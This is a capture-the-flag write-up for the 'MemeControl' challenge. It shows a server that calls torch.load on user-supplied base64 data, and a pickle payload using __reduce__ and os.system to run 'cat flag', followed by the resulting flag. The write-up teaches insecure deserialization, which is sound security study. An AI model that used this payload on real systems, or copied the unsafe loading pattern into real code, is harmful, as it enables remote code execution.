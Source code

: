 # MemeControl
> Internet memes are getting out of control! Submit a pytorch model that catches illegal memes to earn a flag

## About the Challenge
We have been given a zip file (You can download the file [here](memecontrol.tgz)). And if you extract the zip file, there is a python code. Here is the content of the source code

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

This Python code loads a PyTorch model that has been encoded in base64 format. It starts by printing a banner, which is just a string that contains some ASCII art. Then, it reads a base64-encoded model from standard input and decodes it using the `base64.b64decode()` function. The resulting byte string is then used to load a PyTorch model using the `torch.load()` function. The `map_location` argument is set to cpu, which means that the model is loaded onto the CPU device. Finally, the loaded model is set to evaluation mode using the `model.eval()` function.

## How to Solve?
To solve this, i searched about torch vulnerability and I found this [PyTorch issue](https://github.com/pytorch/pytorch/issues/52596) on GitHub. So I tried to use [Python Pickle RCE](https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/) payload, and here is the payload I used to solve the chall

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('cat flag')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

So, you need to run the code first to get the base64 payload, and then input the payload on the server to obtain the flag

![flag](images/flag.png)

```
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```